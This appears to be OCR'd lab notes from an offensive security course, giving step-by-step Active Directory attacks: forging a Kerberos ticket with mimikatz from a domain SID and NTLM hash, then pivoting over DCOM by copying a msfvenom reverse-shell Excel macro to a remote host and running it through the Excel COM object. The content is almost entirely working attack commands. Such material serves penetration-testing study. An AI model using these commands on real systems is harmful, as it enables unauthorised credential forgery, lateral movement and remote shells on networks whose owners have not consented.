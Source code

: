 First find the SID:

```powershell
PS C:\Tools\active_directory> whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-4038953314-3014849035-1274281563-1103
PS C:\Tools\active_directory> .\mimikatz.exe
```

Now purge all existing tickets
```powershell
mimikatz # kerberos::purge
mimikatz # kerberos::list
```

Now create the new ticket with the sid's last portion cut off and the rc4 from the NTLM hash

```powershell
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /ptt
```

### Distributed Component Object model (Pivoting)

We can launch applications on another computer from a workstation with microsoft office installed.

First let's view the available methods and find if the `run` method is available.

Ip addresss of remote workstation: 172.16.194.5

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.194.5"))
$com | Get-Member
```

Now create the excel macro 

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.194.10 LPORT=5555 -f vba-psh > new_payload.txt
cat new_payload.txt
```
copy it to the remote computer
```powershell
$LocalPath = "C:\Users\jeff_admin\Documents\myexcel.xls"
$RemotePath = "\\172.16.194.5\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

Now open the excel file from our machine by creating a system profile on the remote machine then running it

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.194.5"))

$Path = "\\172.16.194.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
$com.Run("Workbook_Open")
$com.Run("mOaoZH8")
$com.Run("AutoOpen")
```
